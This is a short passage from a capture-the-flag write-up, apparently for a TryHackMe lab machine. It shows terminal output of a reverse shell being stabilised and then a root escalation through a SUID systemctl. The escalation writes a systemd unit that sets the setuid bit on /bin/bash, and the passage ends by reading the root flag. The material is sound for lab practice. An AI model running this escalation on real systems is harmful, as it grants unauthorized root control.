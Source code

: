 ![](/assets/obsidian/44f158dbb27c9cc8fbcce65c98a31ff9.png)

```bash
www-data@vulnuniversity:/dev/shm$ python3 -c 'import pty;pty.spawn("/bin/bash")'
<v/shm$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@vulnuniversity:/dev/shm$ ^Z
zsh: suspended  nc -lvnp 1111

┌──(kali㉿kali)-[~/thm]
└─$ stty raw -echo;fg
[1]  + continued  nc -lvnp 1111

www-data@vulnuniversity:/dev/shm$
www-data@vulnuniversity:/dev/shm$ TF=$(mktemp).service
www-data@vulnuniversity:/dev/shm$ echo '[Service]
> Type=oneshot
> ExecStart=/bin/sh -c "chmod +s /bin/bash"
> [Install]
> WantedBy=multi-user.target' > $TF
www-data@vulnuniversity:/dev/shm$ /bin/systemctl link $TF
Created symlink from /etc/systemd/system/tmp.RaN1EzZW4A.service to /tmp/tmp.RaN1EzZW4A.service.
www-data@vulnuniversity:/dev/shm$ /bin/systemctl enable --now $TF
Created symlink from /etc/systemd/system/multi-user.target.wants/tmp.RaN1EzZW4A.service to /tmp/tmp.RaN1EzZW4A.service.
www-data@vulnuniversity:/dev/shm$ /bin/bash -p
bash-4.3# id
uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)
bash-4.3# cat /root/root.txt
a58ff8579f0a9270368d33a9966c7fd5
```